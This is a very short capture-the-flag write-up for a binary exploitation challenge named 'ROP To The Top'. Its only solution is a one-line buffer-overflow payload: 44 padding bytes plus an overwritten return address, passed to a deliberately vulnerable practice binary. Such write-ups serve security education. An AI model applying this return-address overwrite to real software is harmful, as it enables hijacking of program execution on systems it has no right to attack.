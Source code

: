 # ROP To The Top

**Category:** Binary Exploitation
**Points:** 130
**Description:**

> Rop, rop, rop
> Rop to the top!
> Slip and slide and ride that rhythm...
> 
> Here's some binary and source. Navigate to /problems/roptothetop/ on the shell server to try your exploit out!

## Write-up

```python
./rop $(python -c "print 'A'*44+'\xdb\x84\x04\x08'")
```


